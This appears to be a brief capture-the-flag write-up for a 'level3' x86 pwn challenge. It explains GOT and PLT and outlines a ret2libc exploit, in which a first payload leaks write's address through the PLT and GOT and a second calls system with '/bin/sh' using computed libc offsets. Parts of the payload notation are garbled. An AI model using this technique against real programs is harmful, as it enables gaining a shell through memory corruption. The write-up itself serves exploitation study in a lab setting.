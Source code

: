 # level3 pwn  
## x86
### some knowledge about GOT and PLT
GOT:Global Offset Table  
PLT:Procedure Linkage Table  
plt - got - real address

        The system function and /bin/sh string are in the link file  
        And we have the read function in our program,  
        So it's gonna be like payload1 = padding + write.plt + func + 1 + write.got() +4  
        The return address of write function is our vulnerable function so we got the same write address.
        and payload2 = padding + system + aaaa + binsh  
        system = libc.system + write.got - write.libc  
        binsh  = libc.binsh + write.got - write.libc
        
